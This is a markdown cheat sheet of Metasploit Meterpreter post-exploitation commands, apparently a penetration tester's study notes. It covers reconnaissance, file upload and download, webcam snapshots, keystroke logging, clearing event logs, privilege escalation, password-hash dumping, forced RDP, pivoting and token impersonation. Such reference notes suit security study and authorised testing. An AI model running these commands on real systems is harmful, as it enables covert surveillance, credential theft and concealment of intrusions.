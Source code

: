 ```yaml
---
tags: [security, tool, metasploit]
---
```


Meterpreter runs from the memory of the target machine. It allows us to migrate between system processes if required as well

<u>Basic System Information</u>

````bash
getuid 				# View User Info
sysinfo
net user 			# View users on System
ipconfig
ps 				
getprivs 			# View user privileges
find 				# Find files on System

# View privileges of current user
whoami /priv 		
whoami /groups

tasklist /SVC 		# View running processes
````

<u>Upload & Download File</u>

````bash
download <filename> 	# Download file from Target
upload <filename> <path-on-target>
````

<u>Capture Image</u>

````bash
webcam_list
webcam_snap
screenshot
````

<u>Keylogger</u>

````bash
keyscan_start
keyscan_dump 	# View all the keystrokes
keyscan_stop
````

<u>Operations on Target</u>

````bash
shell 					# Launch Shell - To go back use Ctrl + Z
clearev 				# Clear Tracks
migrate <process-id> 	# Migrate to different process
execute -f <filename>
getsystem 				# Try to escalate privileges
hashdump 				# Dump Hashes
````

When using migrate the target process should have the same privilege as the current process and show be of the same architecture as well

<u>Run Payload</u>

````bash
run post/windows/gather/checkvm 				# Check if target is VM
run post/windows/gather/hashdump 				# Collect Password Hashes
run post/multi/recon/local_exploit_suggester 	# Find exploits for Target
run post/windows/manage/enable_rdp 				# Force Enable RDP

load kiwi 			# Start Kiwi
lsa_dump_sam 		# Dump Hashes

run autoroute -h 	# Setup autoroute for Pivoting

load incognito
list_tokens -u 		# View Tokens
impersonate_token "<token-name>"
````

<u>Session Management</u>

````bash
background

sessions -l 					# List Sessions
session -i <session-id>
session <number> 				# Select a Session

sessions -K 					# Kill all sessions
sessions -k <sess-id> 			# Kill a session
````
